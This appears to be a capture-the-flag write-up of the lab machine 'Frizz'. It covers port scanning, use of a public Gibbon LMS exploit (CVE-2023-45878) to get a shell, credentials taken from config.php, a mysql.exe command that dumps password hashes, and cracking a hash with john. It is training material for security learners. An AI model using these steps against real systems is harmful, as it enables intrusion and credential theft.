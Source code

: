 ## Windows Medium

### Enumeration

```
Nmap Scan
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)

53/tcp   open  domain        Simple DNS Plus

80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-08 02:49:58Z)

135/tcp  open  msrpc         Microsoft Windows RPC

139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)

445/tcp  open  microsoft-ds?

464/tcp  open  kpasswd5?

593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

636/tcp  open  tcpwrapped

3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)

3269/tcp open  tcpwrapped
```

### HTTP 80

Website running on http://frizzdc.frizz.htb

There is a Gibbon-LMS installed

Tried looking for exploits online

![image](https://github.com/user-attachments/assets/f3a0daac-8b82-4698-b539-560aba9d3d12)

This looks juicy, lets follow the rabbit hole

https://github.com/davidzzo23/CVE-2023-45878.git

Found a POC, lets try running the script

![image](https://github.com/user-attachments/assets/f3c814f8-b28e-4c75-9b7e-6853a7746d94)

Works, lets see if we can get a shell

BOOYAH

![image](https://github.com/user-attachments/assets/67697a21-50dd-4deb-8bb9-e8d357afe16a)

lets try to find credentials

Under Gibbon-LMS we find a config.php with db creds

$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

users

a.perlstein
Administrator
c.ramon
c.sandiego
d.hudson
f.frizzle
g.frizzle
Guest
h.arm
J.perlstein
k.franklin
krbtgt
l.awesome
m.ramon
M.SchoolBus
p.terese
r.tennelli
t.wright
v.frizzle
w.li
w.Webservice

lets figure out how to see mysql db for creds

We can run mysql.exe from the xampp folder

```
PS C:\xampp\mysql\bin> ./mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon; select title,username,passwordStrong, passwordStrongSalt, gibbonRoleIDPrimary from gibbonperson"
```

found creds

pass- 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
salt- /aACFhikmNopqrRTVz2489

i was not sure how to crack this hash so i did some reading online, GibbonLMS uses SHA256 to hash the password
we can use dynamic_82 method to crack this hash, save the hash in a file as - 

f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489

and run john against rockyou wordlist and we get a password

![image](https://github.com/user-attachments/assets/1c114ae0-5f72-466b-8280-a1cc522c6d66)

When trying to check smb and ldap credentials, we get a clock skew error, lets sync the clock with the machine to see if we can verify the credentials
